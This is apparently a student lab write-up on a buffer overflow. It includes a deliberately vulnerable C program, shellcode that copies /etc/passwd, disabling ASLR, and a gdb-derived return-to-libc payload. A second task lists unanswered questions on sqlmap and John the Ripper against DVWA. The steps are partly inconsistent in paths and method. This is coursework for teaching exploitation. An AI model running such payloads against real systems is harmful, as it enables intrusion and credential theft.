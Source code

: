 # Lab #1,22110046, Mai Duc Kien, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.<br>
**Answer 1**: Must conform to below structure:Description text (optional)


### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
```
![Screenshot 2024-10-21 083918](https://github.com/user-attachments/assets/b8ccbc09-5ff8-424e-bd36-c8b4a0c86ae8)
### 2. Compile asm program and c program

```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc vullab1.c -o vullab1.out -fno-stack-protector -mpreferred-stack-boundary=2
```
![image](https://github.com/user-attachments/assets/82f4142d-6425-4873-82b9-7268a50f61c2)



### 3. Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization)
```
sudo sysctl -w kernel.randomize_va_space=0
```
![image](https://github.com/user-attachments/assets/948e6588-a50f-4789-95e8-f61a7220a3c2)


### 4. Now we create an environment variable in Linux with the path of file lab1.asm
```
nasm -g -f elf lab1.asm
ld -m elf_i386 -o lab1 lab1.o
pwd -> /home/seed/seclabs/bof
export exploit_path="/seclabs/bof/file_del"
```
![image](https://github.com/user-attachments/assets/4bdb34cd-9bc4-44c7-8587-1a812d3e7ae8)
![image](https://github.com/user-attachments/assets/6920c002-706d-46f6-8f61-6c2152812483)

### 5.Stack Frame

![image](https://github.com/user-attachments/assets/f207d112-107d-4f72-9fe7-e85117ab4b8b)

If we want to exploit

20 bytes to overwrite buf and ebp
4 bytes to overwrite ret addr of vuln with the address of system
4 bytes for the address of exit
4 bytes for argument of system (exploit path that we created before)

```
r $(python -c "print(20*'a' + 'address of system' + 'address of exit' + 'address of env var')")
```

### 6. Use gdb

Use gdb for this c program

```
gdb -q vullab1.out
```
Start the code
```
start
```
Print out the address of those things
```
print system
print exit
find /home/seed/seclabs/bof/midterm/file_copy
```

![image](https://github.com/user-attachments/assets/abc8086a-e280-44ef-afdc-60bedb4bca65)


0xf7e50db0: Address of libc_system<br>
0xf7e449e0: Address of exit to avoid crashing <br>
0xffffd91a: Address of env variable <br>

### 7. Attack File

Before attack
<br>
![image](https://github.com/user-attachments/assets/00601137-8fcc-4e22-830d-f8f90c4d28cf)

The attack start
```
gdb -q vullab1.out
```
```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x14\xd9\xff\xff')")
```

![image](https://github.com/user-attachments/assets/e9b06db2-1738-4674-a04d-526309f9d79d)


After that, we use the code below to read file we have just copied
```
cat /tmp/outfile
```


After attacking, we see that the asm program copy /etc/passwd to /tmp/outfile, not /tmp/pwfile

Conclusion: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection.




**Conclusion**: comment text about the screenshot or simply answered text for the question


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





















































